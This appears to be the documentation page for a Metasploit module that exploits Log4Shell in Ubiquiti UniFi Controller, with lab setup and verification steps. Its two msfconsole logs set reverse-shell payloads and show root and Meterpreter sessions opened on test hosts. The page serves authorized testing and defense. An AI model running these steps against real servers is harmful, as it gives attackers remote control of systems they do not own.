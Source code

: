 ## Vulnerable Application

### Description
The Ubiquiti Unifi Controller application versions 5.13.29 through 6.5.53 are affected by the Log4Shell
vulnerability whereby a JNDI string can be sent to the server that will cause it to connect to the attacker and
deserialize a malicious Java object. This results in OS command execution.

This module will start an LDAP server that the target will need to connect to.

### Setup

1. Either install the Windows application, or start the docker container (use jacobalberty/unifi:v6.5.53).
2. Navigate to the service on HTTPS port 8443 to setup the Unifi controller.
3. On step 2, select the button to "Switch to Advanced Setup"
4. While still on step 2, disable the remote access and "Use your Ubiquiti account for local access" options, then
   create a local account.
5. On step 5, when prompted to setup WiFi, select the "Skip" button in the bottom right corner.
6. Review the configuration, and finalize it.

Older versions of the UniFi Network Application can be downloaded from [community.ui.com][1].

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/ubiquiti_unifi_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Scenarios

### Unifi Controller on Docker
This uses jacobalberty/unifi:v6.5.53. Note that tags v6.5.55, v6.0.45, and v5.14.23 all contain the fix for this
vulnerability. See [jacobalberty/unifi](https://hub.docker.com/r/jacobalberty/unifi) for more information.


```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.250.6
RHOST => 192.168.250.6
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 5 opened (192.168.250.134:4444 -> 192.168.250.6:44984 ) at 2022-01-14 09:21:04 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/lib/unifi
```

### Unifi Controler on Windows Server 2016

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.159.65
RHOST => 192.168.159.65
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.65
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.65:51940 ) at 2022-01-14 09:19:25 -0500
[*] Server stopped.

meterpreter > getuid
Server username: WIN-BPID95ACQ7E\smcintyre
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

[1]: https://community.ui.com/releases?q=network+application
